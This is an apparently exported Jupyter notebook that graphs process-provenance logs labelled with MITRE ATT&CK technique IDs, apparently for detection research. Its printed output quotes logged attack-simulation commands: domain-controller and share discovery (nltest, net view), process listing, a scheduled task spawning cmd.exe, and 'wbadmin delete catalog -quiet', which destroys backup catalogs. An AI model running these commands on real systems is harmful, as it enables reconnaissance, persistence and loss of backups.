

 98%|█████████▊| 161/165 [14:56<00:05,  1.42s/it]

Number of relations in the graph: 1
517538 : powershell.exe_-ExecutionPolicy_Bypass_-C_"nltest_/dsgetdc:$env:USERDOMAIN"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2452
745604 : "C:\Windows\system32\nltest.exe"_/dsgetdc:BLUETEAM&C:\Windows\system32\nltest.exe&nltest.exe&8720
../graph_benign2/T1018_26c8b8b5-7b5b-4de1-a128-7d37fb14f517.png has been generated!
T1057_f8de05d1741dcc468f772ab0ff4dac72


<Figure size 432x288 with 0 Axes>



 98%|█████████▊| 162/165 [14:58<00:04,  1.46s/it]

Number of relations in the graph: 1
327683 : cmd.exe_/C_tasklist&C:\Windows\system32\cmd.exe&cmd.exe&10676
673919 : tasklist&C:\Windows\system32\tasklist.exe&tasklist.exe&4132
../graph_benign2/T1057_f8de05d1741dcc468f772ab0ff4dac72.png has been generated!
T1135_deeac480-5c2a-42b5-90bb-41675ee53c7e


<Figure size 432x288 with 0 Axes>



 99%|█████████▉| 163/165 [15:00<00:03,  1.64s/it]

Number of relations in the graph: 1
335532 : powershell.exe_-ExecutionPolicy_Bypass_-C_"net_view_\\desktop-ba1rqfc.blueteam.com_/all"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2472
662677 : "C:\Windows\system32\net.exe"_view_\\desktop-ba1rqfc.blueteam.com_/all&C:\Windows\system32\net.exe&net.exe&8964
../graph_benign2/T1135_deeac480-5c2a-42b5-90bb-41675ee53c7e.png has been generated!
T1490_9e5e4c0655fd1b5be88bd40b8251175f


<Figure size 432x288 with 0 Axes>



 99%|█████████▉| 164/165 [15:02<00:01,  1.80s/it]

Number of relations in the graph: 1
580868 : cmd.exe_/C_wbadmin_delete_catalog_-quiet&C:\Windows\system32\cmd.exe&cmd.exe&9828
600220 : wbadmin__delete_catalog_-quiet&C:\Windows\system32\wbadmin.exe&wbadmin.exe&4996
../graph_benign2/T1490_9e5e4c0655fd1b5be88bd40b8251175f.png has been generated!
T1053.005_ee454be9197890de62705ce6255933fd


<Figure size 432x288 with 0 Axes>



100%|██████████| 165/165 [15:04<00:00,  5.48s/it]

Number of relations in the graph: 1
692785 : cmd.exe_/C_SCHTASKS_/Create_/SC_ONCE_/TN_spawn_/TR_C:\windows\system32\cmd.exe_/ST_20:10&C:\Windows\system32\cmd.exe&cmd.exe&6832
155170 : SCHTASKS__/Create_/SC_ONCE_/TN_spawn_/TR_C:\windows\system32\cmd.exe_/ST_20:10&C:\Windows\system32\schtasks.exe&schtasks.exe&10084
../graph_benign2/T1053.005_ee454be9197890de62705ce6255933fd.png has been generated!
DONE!!


<Figure size 432x288 with 0 Axes>

In [9]:
import os
import numpy as np
import networkx as nx
from tqdm import tqdm
import matplotlib.cm as cm
import matplotlib.pyplot as plt
import matplotlib.patches as mpatches
from networkx.drawing.nx_agraph import graphviz_layout

def read_data(file_path):
    edges = []
    with open(file_path, "r") as file:
        next(file) # pass the 0th row (titles)

        for line in file:
            source, src_entity, destination, dest_entity, relation, label = line.strip().split(' ')
            if label.startswith('T1005') or label.startswith('T1046'): continue
            edges.append((source, src_entity, destination, dest_entity, relation, label))
            
    # edges is a list contains all the information (each set is stored in a tuple)
    return edges


def read_node_id_entity_map(file_path):
    node_id_entity_map = {}
    with open(file_path, 'r') as file:
        next(file)
        for line in file:
            entity, node_id = line.strip().split('\t') # splitted by the space
            node_id_entity_map[node_id] = entity
            
    return node_id_entity_map


def get_other_labels_edges(full_edges, related_nodes, target_label):
    other_labels_edges = []
    for edge in full_edges:
        source, src_entity, destination, dest_entity, relation, label = edge
        if label != target_label and (source in related_nodes or destination in related_nodes):
            other_labels_edges.append(edge)
    return other_labels_edges


def get_related_nodes(edges, target, is_label=True):
    related_nodes = set()

    for edge in edges:
        source, src_entity, destination, dest_entity, relation, label = edge
        if (is_label and label == target) or (not is_label and (source == target or destination == target)):
            related_nodes.add(source)
            related_nodes.add(destination)

    return related_nodes

def draw_graph(full_edges, target_edges, file_name, target_label, node_id_entity_map, draw=False,title=None, figsize=(10, 8), dpi=100):
    if draw:
        related_nodes = get_related_nodes(target_edges, title)  # only consider edges with target_label
        other_labels_edges = get_other_labels_edges(full_edges, related_nodes, title)

        # Separate edges into main graph and others
        main_edges = [edge for edge in target_edges if edge[-1] == target_label]
        other_edges = [edge for edge in target_edges if edge[-1] != target_label] + other_labels_edges

        G = nx.DiGraph()
        total_relations = 0
        edge_labels = {}
        node_colors = {}
        edge_colors = {}
        node_shapes = {
            'process': 'o',    # Circle
            'registry': 'h',   # Hexagon
            'file': 's',       # Square
            'network': 'd'     # Diamond
        }

        # Extract unique labels (e.g., 'T1115_707' from 'T1115_70795de7cbb842edb029b3378c27c008')
        # unique_labels = list(set([label.split('_')[0] + '_' + label.split('_')[1][:3] for _, _, _, _, _, label in other_edges]))  
        unique_labels = list(set([label.split('_')[0] + '_' + label.split('_')[1][:3] if '_' in label else label for _, _, _, _, _, label in other_edges]))

        # Convert the target_label to same format as other labels
        target_label_modified = target_label.split('_')[0] + '_' + target_label.split('_')[1][:3]

        # Create a color map with unique colors for each label
        colors = cm.rainbow(np.linspace(0, 1, len(unique_labels)+1))
        red_color = np.array([1, 0, 0, 1])  # Red color
        color_map = {label: color for label, color in zip(unique_labels, colors) if not np.array_equal(color, red_color)}
        color_map[target_label_modified] = red_color  # Assign red color to the target label separately
        color_map['benign'] = 'skyblue'  # Assign black color to the benign label

        # Add other edges
        for source, src_entity, destination, dest_entity, relation, label in other_edges:
            # before adding the edge
            src_node_shape = node_shapes.get(src_entity, 'o')  # Use 'o' as the default shape
            dest_node_shape = node_shapes.get(dest_entity, 'o')  # Use 'o' as the default shape

            # check if the src and dest nodes are exist, if not -> add and assign the shapes
            if source not in G.nodes:
                G.add_node(source)
                G.nodes[source]['shape'] = src_node_shape

            if destination not in G.nodes:
                G.add_node(destination)
                G.nodes[destination]['shape'] = dest_node_shape

            edge = (source, destination)
            if label != 'benign':
                label_prefix = label.split('_')[0]  # Get the first element after splitting by '_'
                label_prefix_extended = label_prefix + "_" + label.split('_')[1][:3]  # Add "_" and the first three characters after the second '_' to the label_prefix
            else:
                label_prefix_extended = 'benign'

            if edge in G.edges():
                edge_labels[edge] += ", " + relation
            else:
                G.add_edge(source, destination)

                # Check if the edge is a part of the target edges (main graph)
                if label == target_label:
                    node_colors[source] = 'red'
                    node_colors[destination] = 'red'
                    edge_colors[edge] = 'red'
                else:
                    node_colors[source] = color_map.get(label_prefix_extended, 'gray')  # Set gray as the default color
                    node_colors[destination] = color_map.get(label_prefix_extended, 'gray')  # Set gray as the default color
                    edge_colors[edge] = color_map.get(label_prefix_extended, 'black')

                edge_labels[edge] = relation

            total_relations += 1
        

        # Add main graph edges
        for source, src_entity, destination, dest_entity, relation, label in main_edges:
            if label == 'benign': continue

            # before adding the edge
            src_node_shape = node_shapes.get(src_entity, 'o')  # Use 'o' as the default shape
            dest_node_shape = node_shapes.get(dest_entity, 'o')  # Use 'o' as the default shape

            # check if the src and dest nodes are exist, if not -> add and assign the shapes
            if source not in G.nodes:
                G.add_node(source)
                G.nodes[source]['shape'] = src_node_shape

            if destination not in G.nodes:
                G.add_node(destination)
                G.nodes[destination]['shape'] = dest_node_shape
            # print(G.nodes[destination]['shape'])


            edge = (source, destination)
            G.add_edge(source, destination)
            node_colors[source] = 'red'
            node_colors[destination] = 'red'
            edge_colors[edge] = 'red'

            if edge in edge_labels:
                edge_labels[edge] += ", " + relation
            else:
                edge_labels[edge] = relation

            total_relations += 1
            
        pos = graphviz_layout(G, prog="dot")
        pos = {node: (x, y-0.1) for node, (x, y) in pos.items()}

        plt.figure(figsize = figsize, facecolor='white')

        # Draw nodes with custom label styles
        node_labels = {node: rf"$\bf{{{node}}}$" for node in G.nodes()}
        nx.draw_networkx_edges(G, pos, edge_color=[edge_colors[edge] for edge in G.edges()])

        for shape in node_shapes.values():
            nodelist=[node for node, data in G.nodes(data=True) if data['shape'] == shape]
            colorlist = [node_colors.get(node, 'g') for node in nodelist]

            nx.draw_networkx_nodes(G, pos,
                nodelist=nodelist,
                node_color=colorlist,
                node_size=1500,
                node_shape=shape)

        nx.draw_networkx_labels(G, pos, labels=node_labels, font_size=8, font_weight='bold', font_color='black')
        # Draw edges with custom edge labels
        edge_labels = {(source, destination): f"({len(relations.split(','))})" for (source, destination), relations in edge_labels.items()}
        # edge_color = [edge_colors[edge] if edge in edge_colors else 'black' for edge in G.edges()]
        nx.draw_networkx_edge_labels(G, pos, edge_labels=edge_labels)

        
        if title:
            plt.text(0, 1, title, transform=plt.gca().transAxes, fontsize=12, fontweight='bold', verticalalignment='top')

        # for labeling all the label with the corresponding color
        patches = [mpatches.Patch(color=color, label=label) for label, color in color_map.items()]
        plt.legend(handles=patches)

        plt.axis('off')  # Turn off the axis frame
        plt.savefig(file_name + ".png", dpi=dpi)
        plt.show()
        plt.clf()

        # Print the extra messages
        print(f"Number of relations in the graph: {total_relations}")
        count = 0
        # for node in G.nodes and count < 5:
        for node in list(G.nodes)[:5]:
            count += 1
            print(f'{node} : {node_id_entity_map.get(node, "unknown")}')

    # For getting the total relations in each label
    else:
        related_nodes = get_related_nodes(target_edges, title)  # only consider edges with target_label
        other_labels_edges = get_other_labels_edges(full_edges, related_nodes, title)

        # Separate edges into main graph and others
        main_edges = [edge for edge in target_edges if edge[-1] == target_label]
        other_edges = [edge for edge in target_edges if edge[-1] != target_label] + other_labels_edges

        G = nx.DiGraph()
        total_relations = 0
        edge_labels = {}
        node_colors = {}
        edge_colors = {}

        # Extract unique labels (e.g., 'T1115_707' from 'T1115_70795de7cbb842edb029b3378c27c008')
        # unique_labels = list(set([label.split('_')[0] + '_' + label.split('_')[1][:3] for _, _, _, _, _, label in other_edges]))  
        unique_labels = list(set([label.split('_')[0] + '_' + label.split('_')[1][:3] if '_' in label else label for _, _, _, _, _, label in other_edges]))  

        # Convert the target_label to same format as other labels
        target_label_modified = target_label.split('_')[0] + '_' + target_label.split('_')[1][:3]

        # Add other edges
        for source, src_entity, destination, dest_entity, relation, label in other_edges:
            # check if the src and dest nodes are exist, if not -> add and assign the shapes
            if source not in G.nodes:
                G.add_node(source)

            if destination not in G.nodes:
                G.add_node(destination)

            edge = (source, destination)
            if label != 'benign':
                label_prefix = label.split('_')[0]  # Get the first element after splitting by '_'
                label_prefix_extended = label_prefix + "_" + label.split('_')[1][:3]  # Add "_" and the first three characters after the second '_' to the label_prefix
            else:
                label_prefix_extended = 'benign'

            if edge in G.edges():
                edge_labels[edge] += ", " + relation
            else:
                G.add_edge(source, destination)
                edge_labels[edge] = relation

            total_relations += 1


        # Add main graph edges
        for source, src_entity, destination, dest_entity, relation, label in main_edges:
            # check if the src and dest nodes are exist, if not -> add and assign the shapes
            if source not in G.nodes:
                G.add_node(source)

            if destination not in G.nodes:
                G.add_node(destination)
                
            edge = (source, destination)
            G.add_edge(source, destination)

            if edge in edge_labels:
                edge_labels[edge] += ", " + relation
            else:
                edge_labels[edge] = relation

            total_relations += 1

        return total_relations


def get_related_nodes(edges, target_label):
    related_nodes = set()

    for edge in edges:
        if edge[5] == target_label:
            related_nodes.add(edge[0])
            related_nodes.add(edge[2]) # originally [1]

    return related_nodes


def get_other_labels_edges(full_edges, related_nodes, target_label):
    other_labels_edges = []
    for edge in full_edges:
        source, src_entity, destination, dest_entity, relation, label = edge
        if label != target_label and (source in related_nodes or destination in related_nodes):
            other_labels_edges.append(edge)
    return other_labels_edges


def is_valid_target_label(target_label):
    parts = target_label.split('_')
    return len(parts) >= 2 and len(parts[0]) > 0 and len(parts[1]) > 0

def draw_all_graphs(file_path, node_id_entity_map):
    full_edges = read_data(file_path)
    unique_labels = set(edge[5] for edge in full_edges)
    os.makedirs("../graph_benign2/", exist_ok=True)

    # Get the total_relation first
    relations_dict = {}
    for target_label in tqdm(unique_labels):
        if not is_valid_target_label(target_label):
            print(f"Invalid target_label: {target_label}")
            continue

        target_edges = [edge for edge in full_edges if edge[5] == target_label]

        total_relations = draw_graph(full_edges, target_edges, "", target_label, node_id_entity_map, draw=False, title=target_label)
        relations_dict[target_label] = total_relations

    # print(relations_dict)
    sorted_labels = sorted(relations_dict.items(), key=lambda x:x[1], reverse=True)
    # print(sorted_labels)

    for target_label, _ in tqdm(sorted_labels):
        print(target_label)
        target_edges = [edge for edge in full_edges if edge[5] == target_label]
        file_name = f"../graph_benign2/{target_label}"

        draw_graph(full_edges, target_edges, file_name, target_label, node_id_entity_map, draw=True, title=target_label)

        print(f"{file_name}.png has been generated!")

# file_path = "../data_with_entity/test.txt"
file_path = "../data_new_entity/combined_file_with_entity.txt"
node_id_entity_map = read_node_id_entity_map('../data_new_entity/entity2id.txt')

draw_all_graphs(file_path, node_id_entity_map)
print("DONE!!")
